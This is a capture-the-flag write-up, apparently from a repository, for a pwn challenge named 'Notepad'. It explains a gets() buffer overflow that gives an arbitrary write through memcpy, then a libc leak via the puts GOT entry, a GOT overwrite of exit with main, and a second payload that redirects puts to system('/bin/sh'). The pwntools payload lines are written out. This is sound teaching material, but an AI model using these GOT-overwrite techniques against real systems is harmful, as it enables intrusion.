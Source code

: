 # Notepad

![notepad](pictures/chall.png)

This is my personal favourite challenge because of its simplicity and how much stuff I have to cram my payload with

Here is the Ghidra decompilation

```c

void main(void)

{
  undefined8 extraout_RDX;
  long lVar1;
  char *inp;
  EVP_PKEY_CTX *ctx;
  long in_FS_OFFSET;
  char input [16];
  int numBytes;
  undefined8 *message;
  char *buffer;
  undefined8 canary;
  
  canary = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setup();
  numBytes = 0x10;
  message = (undefined8 *)malloc(0x100);
  *message = 0x6262736b6e616874;
  *(undefined *)(message + 1) = 0;
  buffer = input;
  puts("Enter your note: ");
  gets(input);
  puts("Received");
  inp = input;
  memcpy(buffer,inp,(long)numBytes);
  puts((char *)message);
  exitProgram();
}
```

By the way, I removed some dead code in the decompilation. It seems like Ghidra was fusing two functions into one(?).

Anyways, let me explain what the program is doing. I will only talk about relevant parts.

```c
numBytes = 0x10;
message = (undefined8 *)malloc(0x100);
*message = 0x6262736b6e616874;
*(undefined *)(message + 1) = 0;
buffer = input;
```

The program initialises some variables. The message here is `thanksbb` btw. These variables are used later to print out a goodbye message.

```c
puts("Enter your note: ");
gets(input);
puts("Received");
```

The program takes in our input. There is an obvious buffer overflow vulnerability here.

I will talk about it more later.

```c
inp = input;
memcpy(buffer,inp,(long)numBytes);
puts((char *)message);
```

Here, the program uses `memcpy` to copy the contents of our message to a seperate `buffer` variable. Finally, it prints out the `thanksbb` mentioned before.

```c
exitProgram();
```

The program `exit()`s. This prevents us from doing any Return-Oriented Programming as we can't even `return` in the first place.

### Vulnerabilities

Do note that there is no canary and PIE. However, NX is enabled.

We only have one vulnerability, which is the buffer overflow with `gets()`. However, since the program immediately `exit()`s, we can't use ROP to solve it.

Let us look at what variables are after our `input`. These are the variables that we can overwrite.

```c
char input [16];
int numBytes;
undefined8 *message;
char *buffer;
```

So, we can overwrite `numBytes`, `message`, and `buffer`. `numBytes` doesn't really matter as it is the number of bytes to `memcpy()`. `message` and `buffer` is going to be the main way we get our shell.

If you were to enter in a bunch of 'A's, you may notice the program segfaults.

![segfault](pictures/segfault.png)

This is because of the `memcpy()`.

```c
memcpy(buffer,inp,(long)numBytes);
```

After we overflowed `input`, it also overflowed into `message` and `buffer`. Since `buffer` is overwritten to `0x4141414141414141` (`aaaaaaaa` in hex), the target that we are `memcpy()`ing to is under our control, giving us an arbitrary write-what-where primitive.

![memcpy](pictures/memcpy.png)

This is our main vulnerability

### Part 1: Leaking

Idk why I am even splitting this into parts when its only two payloads.

Anyways, in order to get shell we are going to have to call some form of `system('/bin/sh')` as we are going to need to leak Libc Base.

This is actually pretty easy.

Remember when I said we could overwrite `message` as well? `message` is a pointer to a character array, which will be printed out with `puts()`. Since we can overwrite `message`, if we were to point it to lets say setvbuf GOT, then `puts()` will print out the address of `setvbuf()` in PLT. This gives us our Libc Base.

### Part 2: Overwriting

Leaking our libc base was useless since the program exited immediately either ways, so we have to stop that.

Luckily, the program only has Partial RELRO protection, meaning we can overwrite the GOT.

If we were to overwrite the GOT entry for `exit()` to `main()` for example, then the program would call `main()` instead of `exit()`. This allows us to enter in as many payloads as we want.

As such, we will overwrite `exit()` GOT as well as leak Libc base in one payload:

```py
payload = pack(elf.symbols['main']).ljust(16) + pack(context.bytes) + pack(elf.got['puts']) + pack(elf.got['exit'])
```

The first `pack(elf.symbols['main']).ljust(16)` is the thing that we will overwrite with. This is because it is at the start of `inp`. I added a `ljust(16)` to pad it since thats the size of the `input` buffer.

Next, `pack(context.bytes)` is going to be overwritten into `numBytes`. Since we don't want to write our entire payload into exit GOT, we will only write 8 bytes there.

After that is `pack(elf.got['puts'])`. This will be overwritten into `message`, which means that the line `puts((char *)message);` will print out the address of puts PLT and allow us to calculate Libc base.

Finally, `pack(elf.got['exit'])` will be overwritten into `buffer`, which is what we the `memcpy()` will write into. This means that our `pack(elf.symbols['main'])` will be written there, making the program restart whenever it tries to call `exit()`. This allows us to enter in our second payload.

```py
p.recvuntil(b'Received\n')
putsleak = u64((p.recvline().strip()).ljust(8, b'\x00')) * 0x100 + 0x20
base = putsleak - libc.symbols['puts']

print(f"Got Libc Base: {hex(base)}")
```

This is the code for receiving the Libc base btw.

Bogos binted bet no one is reading this.

### Part 3: Getting shell

Now we need to find a GOT address to overwrite `system()` into.

Ideally, it would only have one argument, with the variable being something we can control.

Coincidentally, the perfect line for this is 

```c
puts((char *)message);
```

So, this means we have to overwrite puts GOT with `system()`, then overwrite `message` with `/bin/sh`.

Here is the second payload:

```py
payload = pack(base + libc.symbols['system']).ljust(16) + pack(context.bytes) + pack(base + next(libc.search(b'/bin/sh'))) + pack(elf.got['puts'])
```

This is the same as before.

`pack(base + libc.symbols['system']).ljust(16)` is the thing we will overwrite with alongside the padding.

`pack(context.bytes)` is the numBytes.

`pack(base + next(libc.search(b'/bin/sh')))` will be overwritten into `message` so it will call `system('/bin/sh')`.

`pack(elf.got['puts'])` is our target that we will overwrite into.

What a peak simple challenge that only requires two packed to the max payload.

Full soltion can be found in `notepad.py`